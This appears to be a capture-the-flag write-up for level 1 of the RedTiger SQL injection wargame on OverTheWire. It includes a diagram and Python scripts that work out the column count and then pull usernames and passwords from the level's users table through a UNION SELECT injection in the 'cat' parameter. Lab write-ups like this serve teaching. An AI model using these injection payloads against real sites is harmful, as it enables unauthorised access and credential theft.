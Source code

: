 ================================================================================================================
[redtiger] level1
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="level1.php?cat=1 union select 1,2,username,password from level1_users",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

Target: Get the login for the user Hornoxe 

Hint: You really need one? omg -_- 

Tablename: level1_users

.. code-block:: html

    <br>Category: <a href="?cat=1">1</a>
    This category does not exist! 
    <form method="post">
    Username: <input type="text" name="user"><br>
    Password: <input type="text" name="password">
    <input type="submit" name="login" value="Login">
    </form>
    

|

Column Length
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    n = 0
    ret = ''
    for l in range(20):
        params = {
            "cat": "1 union select %s from level1_users" % str(n)
        }
        print params.values()[0]
        n = str(n) + "," + str(l+1)
        r = requests.get(url, params=params, verify=False)
        print r.content

|

Data Extract
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    params = {
        "cat": "1 union select 1,2,username,password from level1_users"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content